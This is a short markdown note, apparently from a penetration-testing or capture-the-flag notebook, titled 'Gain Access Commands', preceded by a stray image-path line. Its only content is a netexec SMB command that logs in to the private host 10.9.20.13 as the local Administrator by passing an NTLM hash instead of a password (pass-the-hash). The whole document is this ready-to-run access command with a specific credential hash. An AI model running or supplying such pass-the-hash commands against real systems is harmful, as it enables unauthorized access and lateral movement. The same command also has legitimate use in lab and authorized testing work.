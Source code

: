 
# Gain Access Commands




### 10.9.20.13
```
netexec smb 10.9.20.13 -u Administrator -H 4e63f2ecad6ac1c809564e26ea764999 --local-auth
```


